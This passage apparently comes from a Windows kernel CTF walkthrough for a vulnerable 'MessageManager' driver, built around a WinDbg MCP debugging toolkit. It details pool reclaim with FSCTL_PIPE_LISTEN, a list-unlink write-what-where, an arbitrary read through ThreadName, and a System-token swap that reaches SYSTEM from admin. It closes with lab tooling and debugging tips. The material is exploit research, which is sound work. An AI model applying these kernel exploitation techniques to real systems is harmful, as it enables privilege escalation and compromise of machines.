driver fixes. The one attacker-sized allocation this driver makes is the `Tfub` data buffer (up to
`0x2FF4`), and nothing unlinks a freed `Tfub`, so it cannot carry the fake `LIST_ENTRY`. **The forged
object is therefore addressable only if attacker bytes exist within `0x62` of a 4 GiB boundary.** That
reads like a placement problem: a pipe write controls its allocation size (less the NPFS header), so a
buffer large enough to *straddle* a boundary would put an encodable address inside its own controlled
data, and the allocator would never have to place a chunk at the boundary — only to cross one.

Measured on 26100.32995, it does not cross one. A NonPaged pipe-write spray was walked deliberately
into a boundary while `SystemBigPoolInformation` was polled each round:

```text
after ~760 MiB held (1042 nonpaged big-pool entries)
  not page-aligned            : 0             every big-pool address is page-granular
  smallest low-32 ever seen   : 0x00010000    (needs <= 0x62)
  straddling a 4 GiB boundary : 0
  window ffff8786  first=0xd0655000  lastEnd=0xffc31000   stops 3.8 MiB short
  window ffff8787  first=0x00010000                       new region opens past the boundary
```

The frontier does march — 64 MiB of pipe data advances it by roughly 84 MiB — and it walked from
679 MiB out to 8 MiB out in eight rounds. Then the region stopped short and a **new** region opened at
`boundary + 0x10000`; a further 1.5 GiB of spray never moved it again. The allocator does not cross a
4 GiB boundary, it starts over on the far side.

That turns the keyhole from a lottery into a residue class. An encodable `Flink` needs its low 32 bits
in `[0x58, 0x62]`; every address a medium-IL caller can *learn* comes from `SystemBigPoolInformation`
and is page-aligned, so those bits are a multiple of `0x1000`; and that interval contains no such
multiple. Rebooting for a luckier region base does not change it, nor does adding RAM, and straddling —
the one construction that would let an interior offset like `boundary+0x58` be chosen — is precisely
what the measurement rules out. (The spray ran elevated over WinRM; VA layout and straddling are
allocator properties rather than token properties, though a medium-IL *quota* ceiling was not measured.)

The forged-object mechanism survives this. Only its *delivery* dies — and the delivery was never
`FSCTL_PIPE_WAIT`'s to own. What the route needs is a reclaim primitive whose `+0x08` is attacker
data rather than a validated length, and for which a page-aligned big-pool address is perfectly good.

### The primitive: `FSCTL_PIPE_LISTEN`

Eighteen candidate FSCTLs were swept for the gating property — does the request **park pending** with
an oversized `METHOD_BUFFERED` input buffer, so the I/O manager's `SystemBuffer` stays resident? Ten
do. The interesting ones are those documented as taking *no input buffer at all*, because a driver
that never reads the buffer also never validates it. `FSCTL_PIPE_LISTEN` is the best of them:

```text
input length sweep 0x58 / 0x62 / 0x68 / 0x70 / 0x71   ->  8/8 parked at every size
spray scale                                           ->  4000/4000 parked
durability                                            ->  none completed; parks until a client connects
caller                                                ->  WIN-...\lowuser, isAdmin=False, S-1-16-8192
```

Read back under KD from two different address clusters, byte-identical, with the spray running as a
non-administrative medium-integrity account:

```text
ffff8786d3090990  01 00 00 00 00 00 00 00  55 da ba 00 07 f8 ff ff
ffff8786d30909a0  ce fa ed fe 04 9a ff ff  43 43 43 43 43 43 43 43
ffff8786d30909b0  4d 4d 4d 4d 4d 4d 4d 4d  4d 4d 4d 4d 4d 4d 4d 4d
```

That is `RefCount = 1` at `+0x00`, `Flink = 0xFFFFF80700BADA55` at **`+0x08`**, `Blink =
0xFFFF9A04FEEDFACE` at `+0x10`, `Buffer = 0x4343…` at `+0x18` — every field of the fake `MESSAGE`,
verbatim, in a `0x70`-usable chunk of the `0x80` block, `non_paged_nx`, LFH backend, tag `IoSB`: the
same I/O-manager `SystemBuffer` path `FSCTL_PIPE_WAIT` reclaims freed `Tgsm` slots through. NPFS
never touches a byte of it, so the pipe-name encoding rules (`towupper`-invariant, no `NUL`, no `\`)
that constrained `Blink` and `Buffer` in §6 are gone too.

And it reclaims. 64 messages were created bare (no `SetData`, so the refcount reaches zero on a
single `Delete` — §6), their chunks recorded under KD, then all 64 deleted and 4000 `FSCTL_PIPE_LISTEN`
buffers sprayed. Of the 31 addresses the walk had resolved, **15 came back as the fake `MESSAGE`** —
about 48%, against `FSCTL_PIPE_WAIT`'s 8/16:

```text
ffff8786`d4c17590  01 00 00 00 00 00 00 00  de c0 ad de 07 f8 ff ff
ffff8786`d4c175a0  02 ee ff c0 04 9a ff ff  52 52 52 52 52 52 52 52
  pool_chunk: tag IoSB, size 112, non_paged_nx, lfh; neighbours both `Even`
```

The formerly-`Tgsm` address now carries tag `IoSB` and all four fields verbatim — `RefCount` 1,
`Flink` the free kernel pointer, `Blink`, `Buffer`. (`pool_chunk` calls the state `reusable_free`;
that is the 26100 segment-heap LFH misread §6 already documents, and the live content is the truth.)
The unreclaimed slots still show the free-chunk pattern `00000070'00000000`, so the two outcomes are
distinguishable rather than assumed.

So the `+0x08` blocker is retired, and with the reciprocal store already harmless by construction,
the **ordering** is the only KD dependency this section still has. Racing the first store against the
second store's fault is retired by the forged object rather than solved; the double-free →
type-confusion route remains as the alternative that sidesteps `+0x08` entirely.

This makes no claim of privilege escalation; it moves the boundary from "reclaim needs KD" through
"trigger needs KD" to **"the primitives fire debugger-free; of the three things the captured proof
owed the debugger, the `+0x08` write-what is retired by `FSCTL_PIPE_LISTEN` — measured, reclaiming
freed `Tgsm` slots at 15/31 — and the reciprocal store by the forged `_DRIVER_OBJECT`, leaving the
clean chosen-target ordering as the last one."**

## 10. From write-what-where to SYSTEM

§9 proves a *pointer install* — the unlink writes an attacker pointer to an attacker address. Two
questions remained: does that write actually land (rather than fault), and do the primitives compose
into privilege escalation? Both are answered below, and both surfaced a correction to an assumption
this walkthrough had carried since §5.

### The unlink write lands

Reversing Flush's free path (`MessageManager+0x14de`) shows the unlink is a textbook
`RemoveEntryList`, and it fires on *every* node it frees, before the refcount check:

```text
+0x14de  mov rax,[rcx+8]     ; Blink        (rcx = &msg->LIST_ENTRY = msg+0x08)
+0x14e6  mov rbp,[rcx]       ; Flink
+0x14e9  mov [rax],rbp       ; [Blink]   = Flink
+0x14ec  mov [rbp+8],rax     ; [Flink+8] = Blink
```

Driven deterministically (park three messages, set one target's `Flink` to a chosen address `A` and
`RefCount` to 1 under KD, then a single user-mode `Flush`), the store `[Flink+8]=Blink` wrote to
`A+0x08` — a destination fully chosen — and the qword there changed with no fault. That run also
corrected the model: `Blink` came back as the *list head*, not the value placed, because the walk
removes every node and the earlier removals collapse a later node's `Blink` before it is reached. **To
control both unlink pointers the fake must be the first message on the list**, so its `Blink` survives.

### An arbitrary read from the write

Every step beyond a pointer install wants a *read* — the RIP route needs `DeviceObject =
[FILE_OBJECT+0x08]`, and a token swap needs the System token value — and `PreviousMode = 0`, the
read-free shortcut, bugchecks `0x1F9` on this build. So the read is built from the write.

`_ETHREAD.ThreadName` (`+0x6a0` on 26100) is a `PUNICODE_STRING`;
`NtQueryInformationThread(ThreadNameInformation)` copies `Length` bytes from `ThreadName->Buffer` to a
user buffer. Point that pointer at a fake `UNICODE_STRING{Length=8, Buffer=target}` — parked in a
page-aligned big-pool `FSCTL_PIPE_LISTEN` buffer whose address `SystemBigPoolInformation` reports — and
the query returns `[target]`. Placing the ThreadName pointer with KD (standing in for the unlink) and
aiming the fake at `FILE_OBJECT+0x08`, the query returned the `MessageDevice` DEVICE_OBJECT, confirmed
against `!devobj`. One write of a known value to a known address becomes an arbitrary kernel read.

### The chain reaches SYSTEM

Composed end to end, with KD placing only the two unlink-shaped pointer writes: a process reads the
System token through the gadget (`[PsInitialSystemProcess+0x248]`) and installs it into its own
`EPROCESS.Token` — a pointer install, exactly the shape the unlink provides.

```text
before: WIN-...\Admin
gadget read System token = 0xffffd58699226309
after:  NT AUTHORITY\SYSTEM
```

KD independently confirmed the process's `Token` became `ffffd58699226300`, the System token. The read
and write halves compose; the only thing KD stands in for is *landing* the writes — the ordering.



*(Reconstructed terminal session — source:
[`system-proof.cast`](../examples/messagemanager/system-proof.cast), `asciinema play`.)*

### The honest boundary: two things are still owed

- **The address leak is not medium-integrity.** Run as a real non-administrative `lowuser`,
  `SystemModuleInformation`, `SystemExtendedHandleInformation` and `SystemBigPoolInformation` return
  their kernel pointers **zeroed** (the big-pool *count* still comes back, the addresses do not) — a
  24H2/2025 hardening. At admin they are all real. So this chain is **admin → SYSTEM**; a genuine
  medium-IL escalation needs a separate information-leak primitive. The `FSCTL_PIPE_LISTEN` *reclaim*
  is medium-IL; the address *disclosure* is not.
- **The ordering is still KD's.** Every debugger-free step — the read gadget's write, the forged-driver
  RIP, the token install — needs Flush to unlink a *cleanly reclaimed* fake, and a throttled race still
  crashes on a dirty stale node before reaching a clean one. That single unproven step is what the
  whole debugger-free claim now rests on.

## 11. Streamlining the next kernel CTF

This run exposed several improvements that would remove orchestration risk without hiding the
debugger mechanics.

The checked-in [CTF regression runner](../examples/messagemanager/ctf_regression.ps1) automates the
safe subset available today: it deploys a benign retained-message fixture over WinRM and proves the
real driver, structured pool query, session reuse, and detach path through the MCP wire protocol.
See the [smoke-test runbook](smoke-test.md#messagemanager-ctf-regression). It deliberately does not
run the race or the debugger-assisted control-flow handoff; those remain disposable-VM proof steps.

### MCP server

1. **Nonblocking continue with an execution handle** — **done** (2026-08-29,
   [#83](https://github.com/glslang/windbg-mcp/issues/83)). `continue_async`, `wait_for_stop` and
   `break_in` let an agent arm KD, launch the guest process, and then await a stop without relying on
   guest `Sleep` or a second ad-hoc client. See
   [Running a target asynchronously](sessions.md#running-a-target-asynchronously).
2. **Transactional breakpoint scripts.** A tool should accept ordered steps such as “run here,
   assert `rbx == target`, patch these bytes, run there” plus a rollback block. The worker can restore
   code, clear breakpoints, and report the last completed step even if a command, transport, or client
   fails. This is safer than cleanup hidden in PowerShell conditionals.
3. **Named debugger variables.** Keep host-side names (`target_message`, `create_slot`,
   `original_create`) and materialise them only when issuing a command. WinDbg `$tN` registers are a
   scarce global namespace; the first proof cleanup failed because an assertion helper reused
   `$t2`–`$t4`.
4. **Streamed, sanitized transcripts.** Emit each tool request, verdict, stop reason, register delta,
   and rollback action as JSONL while the batch is running, with connection strings redacted. An
   optional asciicast sink would make the recording in this directory live rather than reconstructed.
5. **Structured conditional breakpoints.** Extend `run_to_address` with register/memory predicates
   and on-hit reads. Returning `wrong-object` as a normal verdict would replace the current pattern
   of stopping first and running a separate assertion command.
6. **Pool-address watch mode.** After one full walk, track a selected chunk across stops and report
   state/tag/subsegment changes without refreshing the entire pool. Include requested size, usable
   size, physical block size, pool flags, LFH subsegment, affinity slot, and whether the allocation
   context changed. That data is exactly what distinguished `Tgsm`, `IoSB`, `Even`, and `Tfub` here.
7. **Command-level error attribution.** Split semicolon command batches internally and return the
   failing subcommand plus completed mutations. DbgEng's `0x80040205` otherwise hides whether a
   preceding restore happened.
8. **Explicit resume-and-detach verification.** `end_session` should report the final target state
   and, for live KD, optionally verify that the guest clock advances. A `continue_and_detach` tool
   would make WinRM handoffs predictable.

### Target VM

1. **Guest coordinator service.** Bake in a minimal authenticated lab service that can create the
   harness suspended, return PID/TID and image hash, then resume it on a host command. It should also
   expose log-tail and clean reboot operations. This replaces timing guesses without weakening the
   challenge driver.
2. **Checkpoint lifecycle.** Keep a named clean snapshot and automate
   `revert → boot → health check → run → collect dump/log → revert`. The forced handoff deliberately
   violates LFH metadata, so snapshot rollback is the correct cleanup boundary.
3. **Stable debug/remoting network.** Use a dedicated KDNET adapter, fixed guest address or DHCP
   reservation, baked-in WinRM firewall rules, and a health probe that compares the guest's leaked
   kernel base with KD's `vertarget` before a run.
4. **Two verifier profiles.** Maintain a fast exploit profile with Driver Verifier off and a triage
   profile with Special Pool/pool tracking enabled. Record the active profile in every transcript;
   verifier changes both allocator behaviour and crash timing.
5. **Deterministic topology.** Pin the VM to four fixed vCPUs, disable CPU hot-add/dynamic topology,
   and keep memory size constant. The harness assumes CPUs 0/1 for the victim race and 2/3 for
   pressure/trigger threads.
6. **Crash artefact collection.** Configure kernel or active-memory dumps, retain the most recent
   dump across reboot, and copy the bugcheck code/parameters plus harness hash into a small manifest.
   The `0x1F9` result was much easier to classify once it could be tied to the exact build.
7. **Build identity and secret hygiene.** Print the driver/harness SHA-256 and OS build at launch,
   but keep KD keys and credentials in host credential storage rather than scripts, logs, snapshots,
   or the repository.

### Debugger-free proof loop (what actually worked)

Proving §8's user-mode fire needs no debugger *attached at the moment it fires* — which is the point —
so the loop is deliberately KD-free and reads the crash afterwards:

1. **Detach (`end_session`), race the guest free over WinRM, let it bugcheck.** With a kernel dump
   configured, the guest auto-reboots and writes `C:\Windows\Minidump\*.dmp`. Reading that dump is the
   proof: nothing was attached when the driver freed the UAF'd chunk. Re-attach KD only when you need
   to *observe* an intermediate state (walk the handle list during a deliberate hold).
2. **Launch the harness detached from the WinRM job.** A process started with `Start-Process` inside a
   `PSSession` (or an `Invoke-Command` block) is killed when that session/host job tears down — it
   dies mid-race, often after writing nothing. Use WMI `Win32_Process.Create`
   (`cmd /c harness.exe … > out 2> err`); that child survives the session and keeps running.
3. **Make stdout unbuffered** (`setvbuf(stdout, NULL, _IONBF, 0)`). Redirected stdout is fully
   buffered, so a bugcheck loses every `printf`; unbuffered, the log on disk shows exactly how far the
   run got (an 88-byte file of NULs is the tell that the OS never flushed the last line before halt).
4. **Verify the deployed hash.** `Copy-Item -ToSession` silently produced a corrupted, unrunnable exe
   once ("file corrupted/unreadable"); compare `Get-FileHash` against the host build after every copy.
5. **Classify the crash from the minidump, not a live break-in.** The bugcheck code plus the top
   `MessageManager+RVA` frame is enough to tell an intended fire (`SetData`'s `ExFreePoolWithTag`,
   `+0x1654`) from an incidental one (Flush's unlink AV, `+0x14e9`; a `Tfub` LFH double-free at
   `+0x1668`). **An absent driver frame does not mean an unrelated crash:** the `0x13A`/`Arg1=0x11`
   variant is raised from `RtlpHpLfhSubsegmentDelayFreeListProcess` on a *system worker thread* with
   `PROCESS_NAME: System`, because LFH compaction reached the corrupt subsegment after the harness
   exited. Check the bugcheck arguments and the `RtlpHp*` frame before discarding a dump.
6. **Take the crash instant from the dump, not from host-side polling.** The dump's own `.time`
   ("Debug session time") is the moment of the bugcheck, rendered in the *debugger host's* timezone;
   subtract the launch timestamp for a real time-to-crash. Polling a TCP port to notice the guest
   going down is unreliable — a fast crash-and-reboot cycle can fit entirely between two probes and
   read as a successful run. Diff `C:\Windows\Minidump` and compare `LastBootUpTime` instead; the
   dump directory rotates (five files here), so copy each dump off before the next run, and match by
   crash timestamp rather than filename, since names are reused.
7. **Anything written to the guest seconds before the bugcheck is lost.** NTFS never flushes it, so a
   helper script created just before the run is gone after the reboot and the *next* run silently
   does nothing. Write helpers first, `Write-VolumeCache -DriveLetter C`, then verify they exist.

## Gotchas recap

- **Attach blocks on an INFINITE wait** — diagnose a hung attach out-of-band, don't hammer tools.
- **The whole guest freezes while broken in** — the KD link only runs the target in bursts between
  break-ins, too short for a WinRM round-trip. For guest-side work, `end_session` to detach fully,
  then re-attach to observe. Release with `end_session`, never a process kill (it wedges the KD stub).
- **Guest `Sleep` is not a reliable host-side launch delay under KD** — interrupt time barely
  advances while the guest is stopped. Arm `run_to_address` first and launch the harness through a
  separate remoting call instead of guessing a delay.
- **`PREVIOUS_MODE_MISMATCH` is enforced on this build** — zeroing `KTHREAD.PreviousMode` and
  returning through the syscall boundary bugchecks with `0x1F9`; do not present that legacy
  bootstrap as a working 26100 privilege-escalation primitive.
- **Debugger pseudo-registers are scratch state** — assertion helpers use `$t2` through `$t4`.
  Derive cleanup pointers again from live registers or reserve pseudo-registers the helper cannot
  clobber.
- **A forced allocation return is not pool metadata** — after the KD-assisted handoff, restore code
  and dispatch pointers, capture the proof, and reboot the disposable VM before LFH reuses the
  intentionally corrupted free chunk.
- **A pool walker that "sees nothing" is not proof of an empty pool** — treat "rejected everything"
  as an error; the tools surface walk coverage (`complete`) and diagnostics for exactly this.
- **`!analyze` can misname the faulting module** — trust the bugcheck banner and `IP_IN_PAGED_CODE`.
- **Verifier special pool hides a driver from naive walkers** — it needs a page-granular decoder;
  `pool_find_tag` handles it, and shows the guard page as an `Unreadable` neighbour.
- **The refcount race is won by volume, not a wider window** — SetData rejects `Length > 0x2FF4`, so
  enlarging its `memcpy` to widen the mutex hold silently no-ops the call. The missing-inc window is a
  few instructions; millions of cross-move attempts win it, one-per-message does not (§8).
- **A single unmapped `poi` aborts a whole `execute` script with `0x80040205`** — walking a list where
  some nodes point at freed/unmapped chunks fails opaquely with no partial result. That is what cost
  this session an afternoon of hand-bisecting the 512-entry handle table, and it is now
  [fixed](https://github.com/glslang/windbg-mcp/issues/103): use **`walk_memory`**, which reads each
  value on its own and marks the holes instead of aborting. The table above is two calls — the slots
  as an array for their `msg*`, then those pointers as `addresses` for their refcount and links.
- **A full pool walk is expensive on a *live* KDNET target** — `pool_find_tag`/`pool_census`
  traverse every free tree node-by-node over the wire, and a live target mutates the lists under
  the walk (stale pointers get chased, diagnostics balloon), so the call can exceed the engine
  timeout and stall follow-ups. On a dump it's cheap. To find one object on a live target, prefer
  the targeted route (`!handle`/FILE_OBJECT/`dps`) over a tag walk; the snapshot is cached per
  session, so pay the walk once.
